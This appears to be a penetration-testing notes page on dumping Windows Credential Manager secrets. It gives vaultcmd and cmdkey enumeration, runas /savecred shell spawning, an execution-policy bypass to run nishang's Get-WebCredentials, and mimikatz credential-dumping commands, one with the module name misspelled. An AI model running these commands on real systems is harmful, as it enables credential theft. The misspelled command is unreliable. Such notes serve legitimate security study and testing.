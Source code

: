 # Credentials Manager

### Resources

1. **MITRE ATT\&CK**

{% embed url="https://attack.mitre.org/techniques/T1555/004/" %}

2. **Additional resources (The Hacker Recipes)**

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/windows-credential-manager" %}

3. **Get-WebCredentials.ps1 (nishang)**

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1" %}

4. **cmdkey**

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey" %}



### (1) Enumeration

#### 1.1 vaultcmd

**1.1.1** `/list`

By default, Windows has two vaults: **Web** and **Windows machine credentials**. The following command displays the two vaults:

```powershell
C:\> vaultcmd /list
```

**1.1.2** `/listproperties`

The following commands will list the properties of the web and windows machine credentials respectively:&#x20;

```powershell
C:\> vaultcmd /listproperties:"web credentials"
C:\> vaultcmd /listproperties:"windows credentials"
```

**1.1.3** `/listcreds`

List more information about the stored credentials (for web and windows machine respectively):

```powershell
C:\> vaultcmd /listcreds:"web credentials"
C:\> vaultcmd /listcreds:"windows credentials"
```

#### 1.2 cmdkey

```powershell
C:\> cmdkey /list
```

### (2) Retrieving/exploiting stored credentials

#### 2.1 runas.exe

We can use the `runas.exe` command to run commands (eg. `cmd.exe`) as a particular user with stored credentials.

```powershell
C:\> runas.exe /savecred /user:<username> <command_to_execute>

# eg. to spawn a command prompt for the username "USER" 
C:\> runas.exe /savecred /user:USER cmd.exe
```

* `/savecred`: Indicates if the credentials have been previously saved by this user
  * This option is required to tell `runas.exe` to pull the stored credentials

#### 2.2 GetWebCredentials.ps1

The `vaultcmd` and `cmdkey` commands does not provide methods to show the password. Thus, we have to realy on external PowerShell scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1):

> Ensure to run powershell with the bypass policy

```powershell
C:\> powershell -ep bypass
PS C:\> Import-Module ./Get-WebCredentials.ps1

PS C:\> Get-WebCredentials
UserName  Resource             Password     Properties
--------  --------             --------     ----------
...
```

#### 2.3 mimikatz

1. `sekulrsa::credman`&#x20;

```powershell
mimikatz # privilege::debug
mimikatz # sekulrsa::credman 
```

2. `vault::list`, `vault::cred`&#x20;

```powershell
mimikatz # privilege::debug

mimikatz # vault::list 
mimikatz # vault::cred 
```

If error is encountered:

```powershell
mimikatz # token::elevate
```

### Overview of differences between `vaultcmd` and `cmdkey`

1. `vaultcmd /list`&#x20;

a. Displays both the **Web Credentials** and **Windows Credentials**

&#x20;2\. `cmdkey /list`&#x20;

a. Displays the credentials stored under **Windows Credentials** only

b. Displays the entries added via `cmdkey /add` or `runas.exe /savecred` commands

c. The output from the `vaultcmd /list` may overlap with the results from `vaultcmd /listcreds`

